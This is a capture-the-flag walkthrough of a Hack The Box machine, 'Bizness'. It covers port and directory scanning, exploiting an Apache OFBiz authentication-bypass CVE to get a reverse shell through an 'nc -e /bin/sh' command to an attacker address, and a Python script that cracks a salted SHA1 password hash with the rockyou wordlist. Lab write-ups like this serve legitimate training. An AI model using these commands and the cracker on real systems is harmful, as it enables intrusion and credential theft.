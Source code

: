 
Nmap Scanning:

~~~

nmap 10.129.248.54 -sC -sV 
~~~

~~~
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 18:16 IST
Nmap scan report for 10.129.248.54
Host is up (0.28s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp   open     http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp  open     ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
1277/tcp filtered miva-mqs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.42 seconds
~~~



![[Screenshot from 2024-01-08 18-17-48.png]]


Dir Enumeration:

~~~

dirsearch -u https://bizness.htb/
~~~

~~~

[18:21:50] Starting: 
[18:22:23] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[18:22:26] 400 -  795B  - /a%5c.aspx
[18:22:29] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[18:23:14] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[18:23:21] 302 -    0B  - /common  ->  https://bizness.htb/common/
[18:23:21] 404 -  780B  - /common/config/api.ini
[18:23:21] 404 -  779B  - /common/config/db.ini
[18:23:21] 404 -  762B  - /common/
[18:23:25] 302 -    0B  - /content  ->  https://bizness.htb/content/
[18:23:25] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[18:23:25] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[18:23:27] 200 -   34KB - /control/
[18:23:28] 200 -   34KB - /control
[18:23:28] 200 -   11KB - /control/login
[18:23:31] 404 -  763B  - /default.html
[18:23:31] 404 -  741B  - /default.jsp
[18:23:38] 302 -    0B  - /error  ->  https://bizness.htb/error/
[18:23:38] 404 -  770B  - /error/error.log
[18:23:38] 404 -  761B  - /error/
[18:23:39] 302 -    0B  - /example  ->  https://bizness.htb/example/
[18:23:54] 404 -  768B  - /images/README
[18:23:54] 404 -  762B  - /images/
[18:23:54] 404 -  769B  - /images/c99.php
[18:23:54] 302 -    0B  - /images  ->  https://bizness.htb/images/
[18:23:54] 404 -  769B  - /images/Sym.php
[18:23:56] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
~~~

![[Pasted image 20240108182453.png]]

![[Pasted image 20240108182511.png]]

there is an CVE for OFBIZ
so we exploit with this 
https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467

with cve we get the shell 

~~~
sudo python3 ex.py --url https://bizness.htb --cmd 'nc -e /bin/sh  10.**.**.** 1444'
~~~

![[Pasted image 20240108182840.png]]

~~~
nc -lvnp 1444
~~~

 with this command we got the 
 
 interactive  shell
 
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

we get the user flag 
![[Pasted image 20240108183205.png]]

Root flag

![[Pasted image 20240108183509.png]]

a salt is a random sequence added to the plaintext password before using a one-way function to create a password hash. This process ensures that the same password will not produce the same hash value, as each user's password is hashed using a unique salt. The salt is typically stored alongside the hash. When you want to find the password from a hashed value, you need to use the same salt that was used to originally hash the password. This is why you need the salt to find the password.


so we need salt part of the password to decrypt


![[Pasted image 20240108185618.png]]

~~~
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
~~~


~~~
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}'
~~~

~~~
- `-a`: Treat binary files as text.
- `-r`: Recursively search subdirectories.
- `-i`: Perform case-insensitive matching.
- `-n`: Display line numbers.
- `-o`: Only display the matched parts of the line.
- `-E`: Use extended regular expressions.

The regular expression used is `(\w+\W+){0,5}password(\W+\w+){0,5}`:

- `(\w+\W+){0,5}`: Match 0 to 5 occurrences of one or more word characters followed by one or more non-word characters (essentially allowing for up to 5 words before "password").
- `password`: Match the literal word "password."
- `(\W+\w+){0,5}`: Match 0 to 5 occurrences of one or more non-word characters followed by one or more word characters (essentially allowing for up to 5 words after "password").
~~~


~~~ python

import hashlib
import base64
import os
def cryptBytes(hash_type, salt, value):
    if not hash_type:
        hash_type = "SHA"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
    hash_obj = hashlib.new(hash_type)
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value)
    hashed_bytes = hash_obj.digest()
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
    return result
def getCryptedBytes(hash_type, salt, value):
    try:
        hash_obj = hashlib.new(hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
    except hashlib.NoSuchAlgorithmException as e:
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'
with open(wordlist,'r',encoding='latin-1') as password_list:
    for password in password_list:
        value = password.strip()
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))
        # print(hashed_password)
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
  ~~~

	
we find the password  for root


~~~
Found Password:monkeybizness, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
~~~

![[Pasted image 20240108190503.png]]

finally we got the root flag
